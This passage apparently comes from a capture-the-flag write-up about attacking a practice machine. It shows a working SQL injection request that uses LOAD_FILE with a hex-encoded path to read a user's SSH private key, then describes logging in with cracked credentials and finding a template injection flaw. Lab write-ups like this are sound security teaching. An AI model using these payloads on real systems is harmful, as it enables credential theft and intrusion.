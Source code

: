 We get the encrypted SSH private key of _dorthi_, but there is no SSH port open.

It is also possible to download files by using the **LOAD_FILE command**:
```
GET /users/notexisting' union select all LOAD_FILE(0x2f686f6d652f646f727468692f2e7373682f69645f727361)-- -

# URL encoded
GET /users/notexisting'%20union%20select%20all%20LOAD_FILE(0x2f686f6d652f646f727468692f2e7373682f69645f727361)--%20-
```

## Checking HTTP (Port 8080)

The web page on port 8080 forwards to _/login_:

![Login page](oz_web-1.png)

The password of the user _wizard.oz_ were cracked before and the credentials work on this login page.
It shows all the tickets from the _tickets_gbw_ table and the only feature is to create tickets.
```
POST / HTTP/1.1
Host: 10.10.10.96:8080
(...)

name=test1&desc=test1
```

After testing for some web vulnerabilities, this application seems to be vulnerable to **Server Side Template Injection**.
There are some examples on [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection) for this vulnerability.
